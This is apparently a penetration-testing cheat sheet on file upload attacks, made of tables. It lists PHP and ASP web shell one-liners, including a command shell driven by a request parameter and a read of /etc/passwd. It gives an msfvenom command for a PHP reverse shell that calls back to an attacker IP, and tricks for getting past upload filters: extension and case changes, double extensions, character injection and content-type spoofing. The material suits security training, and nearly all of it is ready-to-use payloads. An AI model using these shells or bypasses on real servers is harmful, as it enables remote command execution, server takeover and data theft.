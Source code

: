 ## Web Shells

| **Web Shell**   | **Description**   |
| --------------|-------------------|
| `<?php file_get_contents('/etc/passwd'); ?>` | Basic PHP File Read |
| `<?php system('hostname'); ?>` | Basic PHP Command Execution |
| `<?php system($_REQUEST['cmd']); ?>` | Basic PHP Web Shell |
| `<% eval request('cmd') %>` | Basic ASP Web Shell |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |
| [PHP Web Shell](https://github.com/Arrexel/phpbash) | PHP Web Shell |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) | PHP Reverse Shell |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |

## Bypasses

| **Command**   | **Description**   |
| --------------|-------------------|
| **Client-Side Bypass** |
| `[CTRL+SHIFT+C]` | Toggle Page Inspector |
| **Blacklist Bypass** |
| `shell.phtml` | Uncommon Extension |
| `shell.pHp` | Case Manipulation |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) | List of ASP Extensions |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) | List of Web Extensions |
| **Whitelist Bypass** |
| `shell.jpg.php` | Double Extension |
| `shell.php.jpg` | Reverse Double Extension |
| `%20`, `%0a`, `%00`, `%0d0a`, `/`, `.\`, `.`, `…` | Character Injection - Before/After Extension |
| **Content/Type Bypass** |
| [Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt) | List of Web Content-Types |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) | List of All Content-Types |
| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) | List of File Signatures/Magic Bytes |

## Limited Uploads

| **Potential Attack**   | **File Types** |
| --------------|-------------------|
| `XSS` | HTML, JS, SVG, GIF |
| `XXE`/`SSRF` | XML, SVG, PDF, PPT, DOC |
| `DoS` | ZIP, JPG, PNG |